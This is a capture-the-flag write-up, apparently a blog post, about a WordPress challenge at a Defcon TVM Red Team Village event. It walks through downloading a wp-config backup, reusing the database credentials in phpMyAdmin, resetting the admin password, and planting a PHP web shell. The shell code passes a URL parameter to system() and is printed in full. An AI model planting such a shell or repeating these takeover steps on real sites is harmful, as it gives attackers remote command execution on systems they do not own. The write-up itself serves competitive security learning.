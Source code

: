 ```yaml
---
layout:     post
title:      "Writeup - Capture South Africa"
subtitle:   "Write-Up"
date:       2018-10-01 
author:     "Abhishek S"
permalink: /:title/
category: Boot2Root
---
```


This is a write-up for the WEB-APP Challenge [Capture South Africa] in Redteamvillage’s CTF event at Defcon TVM 0x02.


![](/img/redteam/redteambanner.jpg)


Special thanks to my awesome team members of defcon_speakers_0x02 (Sreeram KL & Vishnuprasad PG)

<p>

http://l.xyz was a web application which was running wordpress instance, while doing basic enumeration, i noticed that the wordpress version used was the most latest one, and the first post was something fishy, the first post’s author name was ‘victimcorp’… i was checking for common vulnerablities that were present in wordpress, i checked for vulnerable plugins and stuff, but couldn’t find any and all were latest, i remember reading a POC in which wp-config file was downloadable, so i thought to try that, but i failed, then i tried adding a .bak (i.e: http://l.xyz/wp-config.php.bak) and there was a backup file, and it did download! </p>


<p>Hurray!!!, I’ve checked it and it was the common config file with the configuration & credentials of the database, I’ve got the username and password from there, I checked for the open ports & instances with nmap, and it was pretty surprising that there was no instance related to DB running, I suddenly got an idea, i just went into /phpmyadmin/ and tried the db credentials! hurray! i logged into the phpmyadmin dashboard, i went to the corresponding database and went to the table wp-users, the password for admin there was encrypted, so i got an idea, instead of decrypting that, i just encrypted ‘test123’ into wordpress salted pass, and updated the pass of user ‘victimcorp’ with an sql DML command.  </p>
  
 <p> 
then, i went to /wp-admin/ and logged into the admin account, we all thought that the flag would be inside the admin panel, but it was not there! where was it? suddenly i got an idea to shell the server, i went to themes, and added a .php file with the following code. </p>

```
<?
<HTML>
<BODY>
<FORM METHOD=”GET” NAME=”cmdform” ACTION=””>
<INPUT TYPE=”text” NAME=”linux command”>
<INPUT TYPE=”submit” VALUE=”command”>
</FORM>
<?
if($_GET[‘cmd’]) {
system($_GET[‘cmd’]);
}
?>
</BODY></HTML>
</code>
```


<p>
and used ls, and some basic commands, and the flag was inside the /www2/ directory in a file called flag.txt
This was a webapp challenge in the redteamvillage’s ctf, and i loved pr3wning it! There were 6 challenges in total, and our team managed to solve 5 of them, and won the 2nd place :) </p>

<p>
Thanks for reading, I hope it was a good read!
P.S: I’ve wanted to make a writeup for the other challenges too, but i don’t have much time with me in order to do that :(
Bug Bounty Hunting
  </p>
